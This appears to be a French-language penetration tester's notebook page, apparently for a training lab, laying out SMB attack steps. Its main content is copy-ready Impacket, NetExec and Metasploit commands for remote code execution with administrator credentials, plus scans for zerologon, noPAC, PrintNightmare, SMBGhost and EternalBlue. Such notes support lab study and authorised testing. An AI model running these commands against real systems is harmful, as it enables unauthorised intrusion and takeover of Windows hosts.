 
- [ ] [[#0. Enumérer les shares]]
- [ ] [[#1. Monter les shares]]
- [ ] [[#2. Bruteforce]]
- [ ] [[#3. RCE]]
- [ ] [[#4. Relay NetNTLM over SMB]]
- [ ] [[#5. CVEs]]




---
# 0. Enumérer les shares

[[3. Protocoles#SMB (139,445)]]


---

# 1. Monter les shares

[[COMMANDES WINDOWS#PARTAGES CMD]]

[[COMMANDES WINDOWS#PARTAGES POWERSHELL]]

[[COMMANDES LINUX#PARTAGES]]


---

# 2. Bruteforce


[[Bruteforce en ligne#SMB NXC]]



---

# 3. RCE

- PSEXEC -> Créer un named pipe (FIFO) et permet d'exécuter des processus
- SMBEXEC -> Similaire à PsExec mais instancie un serveur smb qui reçoit les commandes sur la cible
- ATEXEC -> Exécute des commandes au travers du task scheduler.


### Impacket

```shell
impacket-psexec administrator:'Password123!'@10.10.110.17
```

```shell
impacket-smbexec administrator:'Password123!'@10.10.110.17
```

```shell
impacket-atexec administrator:'Password123!'@10.10.110.17
```

### Metasploit

```msfconsole
use exploit/windows/smb/psexec
```

### [[NETEXEC#SMB NXC]]

```shell
nxc smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```



---


# 4. Relay NetNTLM over SMB


[[LLMNR, NBT-NS Poisoning & SMB Relay - T1557.001#1. Relay NetNTLM over SMB]]




---

# 5. CVEs


https://www.netexec.wiki/smb-protocol/scan-for-vulnerabilities


Tester toutes les vuln connues (noPAC requiert des identifiants)

```bash
nxc smb 172.16.1.20 -u '' -p '' -d DANTE.LOCAL --dns-server 172.16.1.20 -M zerologon -M nopac -M printnightmare -M smbghost -M ms17-010 -M coerce_plus

```


## ETERNALBLUE (ms17-010)

Buffer Overflow

Potentiellement vulnérable si version d'avant 2017

NETEXEC

```
nxc smb <ip> -u '' -p '' -M ms17-010
```


METASPLOIT

```msfconsole
search exploit eternalblue
```




## SMBGhost (CVE-2020-0796)

Buffer Overflow

Potentiellement vulnérable si version d'avant 2020 (seulement Windows v1903-1909 x64
)

NETEXEC

```bash
nxc smb <ip> -u '' -p '' -M smbghost
```


METASPLOIT

```msfconsole
search exploit smbghost
```
